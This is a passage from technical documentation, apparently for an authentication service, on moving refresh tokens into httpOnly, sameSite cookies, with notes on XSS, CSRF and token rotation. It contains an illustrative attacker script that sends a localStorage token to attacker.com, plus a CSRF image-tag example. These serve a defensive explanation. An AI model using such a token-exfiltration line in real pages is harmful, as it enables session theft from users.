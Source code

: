 **Key Points**:
- No need to read refresh_token (browser sends cookie automatically)
- No need to store new refresh_token (browser updates cookie automatically)
- Only update access_token in memory

## Security Benefits

### XSS Attack Mitigation

**Without httpOnly Cookies (Vulnerable)**:
```javascript
// Attacker's injected script could steal tokens
const refreshToken = localStorage.getItem('refresh_token');
fetch('https://attacker.com/steal?token=' + refreshToken);
```

**With httpOnly Cookies (Protected)**:
```javascript
// Attacker's script CANNOT access the cookie
document.cookie; // Does NOT include httpOnly cookies
// Browser automatically manages cookie, JavaScript cannot read it
```

### CSRF Attack Mitigation

The `sameSite: 'strict'` attribute prevents CSRF attacks:

**Attack Scenario**:
```html
<!-- Attacker's website -->
<img src="https://victim-ciam.com/auth/sensitive-action" />
```

**Protection**:
- Cookie NOT sent because request originates from different site
- `sameSite: 'strict'` blocks cross-site cookie transmission

### Token Rotation Benefits

Every `/auth/refresh` call generates a new refresh_token:

1. **Limited Window**: If refresh_token is stolen, it's only valid until next refresh
2. **Automatic Invalidation**: Old refresh_tokens automatically invalidated
3. **Breach Detection**: Unexpected refresh_token usage can indicate compromise

## Migration from v1 (Response Body) to v3 (Cookie-Only)

### Backend Changes

**Before (v1 - Non-compliant)**:
```typescript
return res.status(201).json({
  response_type_code: 'SUCCESS',
  access_token: accessToken,
  id_token: idToken,
  refresh_token: refreshToken,  // ❌ Security risk
  token_type: 'Bearer',
  expires_in: 900,
  context_id: context_id
});
```
